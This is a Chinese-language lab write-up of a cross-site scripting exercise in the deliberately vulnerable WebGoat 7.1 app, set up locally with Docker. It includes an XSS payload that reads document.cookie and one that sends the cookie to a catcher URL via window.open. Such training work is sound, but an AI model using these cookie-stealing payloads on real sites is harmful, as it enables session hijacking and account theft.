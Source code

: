 # XSS跨站脚本攻击

## 实验说明

本实验通过利用一个存在XSS漏洞的网站，实现跨站脚本攻击

## 实验环境

* linux虚拟机
* WebGoat网站

## 实验过程

* 环境搭建

  * 更新apt并安装docker-compose

    ```
    apt update $$ apt install docker-compose
    ```

  * 查看docker镜像，确认成功安装

    ```
    apt policy docker.io
    ```

  * 将github上的相关仓库克隆到本地

  * 启动docker服务

    ```
    sudo service docker start
    ```

  * 使用以下指令自动安装好WebGoat环境

    ```
    docker-compose up -d
    ```

  * 用 docker ps 查看WebGoat的三个镜像的健康状况：

    ![](/img/docker1.png)

    可以看到WebGoat 7.1对应虚拟机的8087端口，WebGoat 8.0对应虚拟机的8088端口，本次实验使用WebGoat 7.1版本。

  * 终端输入 php -S 127.0.0.1:8000 搭建一个内置的web服务器

    ![](/img/php-s.png)

  * 在浏览器中输入 127.0.0.1:8087/WebGoat/attack,注册成功后即可开始实验

* 在左侧菜单中进入 Cross-Site Scripting(XSS)->Phishing with XSS

  - 输入以下命令：获得页面的Cookie值

    ```html
    <script>alert(document.cookie)</script>
    ```

    ![](/img/XSS-cookie.png)

  - 在输入框中输入以下代码：

    ```html
    <script>window.open('http://127.0.0.1:8087/WebGoat/ catcher?PROPERTY=yes&msg='+document.cookie)</script>
    ```

  - 此时弹出了一个新的网页，查看其URL

    ![](/img/XSS-succeed.png)

    可以看到其中的msg参数和之前页面的Cookie值相同，实验成功